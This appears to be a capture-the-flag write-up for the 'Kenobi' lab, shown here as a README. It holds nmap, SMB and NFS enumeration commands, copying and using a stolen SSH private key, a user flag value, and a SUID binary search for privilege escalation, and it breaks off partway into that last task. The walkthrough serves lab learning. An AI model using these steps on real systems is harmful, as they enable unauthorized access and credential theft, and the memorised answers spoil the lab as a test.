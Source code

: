# kenobi

![ken](https://user-images.githubusercontent.com/32848915/197361401-106ba5cb-e7d2-49b5-a8f3-53b8182f4f8e.PNG)

🔴️Task 1  Deploy the vulnerable machine:
==========================================
	Scan the machine with nmap, how many ports are open?	
		nmap -sC -sV -oN nmap 10.10.77.115
			==>7

🔴️Task 2  Enumerating Samba for shares
=======================================
	- Using the nmap command above, how many shares have been found?
		nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.77.115 -Pn
		//this command Using nmap we can enumerate a machine for SMB shares.
			==>3
	- On most distributions of Linux smbclient is already installed. Lets inspect one of the shares.
	smbclient //<ip>/anonymous
	Using your machine, connect to the machines network share.
		#smbclient \\10.10.77.115\anonymous
			==>log.txt
			
	- What port is FTP running on?
		==>21
		
	- What mount can we see?
		sudo nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.77.115 -Pn
		==> /var
		
🔴️Task 3  Gain initial access with ProFtpd
=======================================
	// ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. Its also been vulnerable in the past software versions.
	
	- Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port.
		#nmap -sC -sV -oN proftpd-scan 10.10.77.115
			==> 1.3.5
			
	- How many exploits are there for the ProFTPd running? use searchsploit
			$searchsploit proftpd 1.3.5
			==> 4
			
	
	- Let’s connect to the FTP service and copy the SSH private key to /var/tmp/:
		$ nc 10.10.66.120 21
	
	- Lets mount the /var/tmp directory to our machine
		$ mkdir /mnt/kenobiNFS
		$ mount 10.10.66.120:/var /mnt/kenobiNFS
		$ ls -la /mnt/kenobiNFS	
		$ cd /mnt/kenobiNFS/tmp/
		$ chmod 600 id_rsa 
		$ ssh -i id_rsa kenobi@10.10.66.120
			kenobi@kenobi:~$ ls -l
			total 8
			drwxr-xr-x 2 kenobi kenobi 4096 Sep  4  2019 share
			-rw-rw-r-- 1 kenobi kenobi   33 Sep  4  2019 user.txt
			kenobi@kenobi:~$ cat user.txt 
			d0b0f3f53b6caa532a83915e19224899
			
🔴️Task 4  Privilege Escalation with Path Variable Manipulation :
================================================================

![s](https://user-images.githubusercontent.com/32848915/197361485-388a6019-3e94-45c1-9cd6-e05f1579ec3a.PNG)

	- Let’s check files with SUID bit set:
		$find / -perm -u=s -type f 2>/dev/null
			==>/usr/bin/menu
			
	- Instructions

		Run the binary, how many options appear?

		Answer

		When we run the program, we have a menu with 3 options:
			/usr/bin/menu 
				***************************************
				1. status check
				2. kernel version
				3. ifconfig
				** Enter your choice :
				
			==> 3
